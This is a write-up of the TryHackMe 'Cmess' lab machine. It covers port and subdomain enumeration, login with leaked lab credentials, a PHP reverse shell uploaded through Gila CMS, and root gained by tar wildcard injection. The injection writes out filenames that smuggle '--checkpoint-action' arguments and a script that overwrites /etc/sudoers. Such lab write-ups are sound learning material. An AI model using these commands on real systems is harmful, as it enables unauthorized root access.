 ```yaml
---
date: 2020-05-18
layout: post
title: "Cmess"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/cmess/cmess.png
optimized_image:
category: tryhackme
tags: 
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/cmess">Link</a> to the machine on Tryhackme.

Starting with what is told to do by machine author.
Making an entry for the ip in /etc/hosts.

Added ***10.10.10.185.18  cmess.thm*** to the /etc/hosts file.

Scanning for open ports gives,
```bash
nmap -T4 -p- -A 10.10.185.18
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   376.32 ms 10.8.0.1
2   376.38 ms cmess.thm (10.10.160.221)
```
The website hosted at port 80 contains robots.txt
![placeholder](/writeup/assets/img/cmess/robots.png "robot")

Accessing all the directories listed in robots.txt gives FORBIDDEN 403 error.
Directory and file file busting through ffuf gives
 ![placeholder](/writeup/assets/img/cmess/directory.png "directory")
 admin directory gives a login page.
 ![placeholder](/writeup/assets/img/cmess/login.png "login")
 The website is working with GilaCMS as written on the homepage.
 Nothing interesting found yet. Searching for exploits also is not much helpful as version of gilacms is still unknown.
 
 Then I thought to go for subdomains.
 ```bash
 ffuf -w sublists -u http://cmess.thm -H "Host: FUZZ.cmess.thm" -fw 522
 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : http://cmess.thm/
 :: Header           : Host: FUZZ.cmess.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 522
________________________________________________

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31]

## Here fw specifies the amount of words to filter. This can be set as first run the scan without fw and see the response which are getting 200 and
## note the number of words in their response.That number which is common in most use it as word filter(fw) in the next scan
```
So I got a subdomain dev.
Make an entry of this subdomain in the /etc/hosts file.
It will look like
![placeholder](/writeup/assets/img/cmess/hosts.png "hosts")

Now accessing the subdomain *dev.cmess.thm* gives
![placeholder](/writeup/assets/img/cmess/mail.png "mail")

Got an email and a password.

**andre@cmess.thm:KPFTN_f2yxe%**
Used it to login at the login page.
 ![placeholder](/writeup/assets/img/cmess/gila.png "gilacms")
 
Clicked on Content and then file manager and reached the directory where all the files related to website are stored.
Uploaded a php reverse shell with the upload option inside assets directory.

Accessed the php file at *http://cmess.thm/assets/phpshell.php* and got the reverse shell.
![placeholder](/writeup/assets/img/cmess/shell.png "shell")

Found .password.bak file inside /opt/. Found a password inside the file.
```bash
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
Used this password to login with ssh as andre user.
![placeholder](/writeup/assets/img/cmess/ssh.png "ssh")

Got the user.txt.

Uploaded Linpeas.sh using wget and ran it.

This showed a 99% P.E. Vector at a cron job
![placeholder](/writeup/assets/img/cmess/linpeas.png "cron")

This cronjob is using tar with wildcard(*).So I used wildcard injection.
Executed these commands.
```bash
echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "" > "--checkpoint-action=exec=sh privesc.sh"
echo "" > --checkpoint=1

##tar command uses **checkpoint-action=ACTION** argument to execute the ACTION on each checkpoint

##--checkpoint[=NUMBER]
  ##  display progress messages every NUMBERth record (default 10)
```
You can learn more about tar wildcard injection <a href="https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e">here</a>.

The above commands create three files
* A file named privesc.sh; which contains the commands I want to run
* A file named "--checkpoint-action=exec=sh privesc.sh";this will trigger the tar command to execute privesc.sh when a checkpoint is reached.
* A file named "--checkpoint=1"; this will make checkpoint-action to trigger at every 1th record read rather than default 10th record read.

Now when the cron job executes it creates an entry in sudoers file to grant andre user permission to run sudo for all commands without asking for password.

Changed the user to root.

```bash
sudo su
```

Got the root.txt.





 

